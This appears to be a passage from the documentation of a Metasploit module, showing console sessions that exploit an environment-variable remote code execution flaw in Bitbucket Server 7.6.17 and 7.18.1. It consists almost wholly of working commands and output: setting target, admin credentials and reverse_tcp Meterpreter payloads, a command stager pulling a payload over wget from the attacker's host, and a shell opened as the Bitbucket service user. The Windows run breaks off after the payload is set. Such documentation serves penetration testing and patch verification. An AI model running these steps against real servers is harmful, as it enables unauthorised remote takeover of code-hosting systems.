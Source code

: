 ```
```

### Ubuntu 22.04 x64 - Bitbucket `v7.6.17`, Linux Dropper

```
msf6 exploit(multi/http/bitbucket_env_var_rce) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
    0   Linux Command
=>  1   Linux Dropper
    2   Windows Dropper


msf6 exploit(multi/http/bitbucket_env_var_rce) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/bitbucket_env_var_rce) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Project creation was successful
[+] Successfully created repository 'gmoQNc'
[+] Commits added: d355924ddef6869f5bbd7673c2a2d67c14ccd56d, cbd85c6309ab2830455c1796898f9677e10227e5
[*] Sending payload
[*] Using URL: http://192.168.140.1:8080/VtgFQ7yCgjcP
[*] Client 192.168.140.149 (Wget/1.21.2) requested /VtgFQ7yCgjcP
[*] Sending payload to 192.168.140.149 (Wget/1.21.2)
[*] Command Stager progress -  53.04% done (61/115 bytes)
[*] Command Stager progress -  72.17% done (83/115 bytes)
[*] Sending stage (1017704 bytes) to 192.168.140.149
[*] Meterpreter session 2 opened (192.168.140.1:4444 -> 192.168.140.149:50632) at 2023-03-13 14:06:18 -0500
[*] Command Stager progress -  83.48% done (96/115 bytes)
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Changing user name back to 'test'
[+] Repository has been deleted
[+] Project has been deleted

meterpreter > getuid
Server username: atlbitbucket
```

### Windows 10, x64 - Bitbucket `v7.18.1`, Windows Dropper

```
msf6 > use exploit/multi/http/bitbucket_env_var_rce 
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/http/bitbucket_env_var_rce) > set rhost 192.168.140.171
rhost => 192.168.140.171
msf6 exploit(multi/http/bitbucket_env_var_rce) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(multi/http/bitbucket_env_var_rce) > set username admin
username => admin
msf6 exploit(multi/http/bitbucket_env_var_rce) > set password P@ssword
password => P@ssword
msf6 exploit(multi/http/bitbucket_env_var_rce) > set target 2
target => 2
msf6 exploit(multi/http/bitbucket_env_var_rce) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```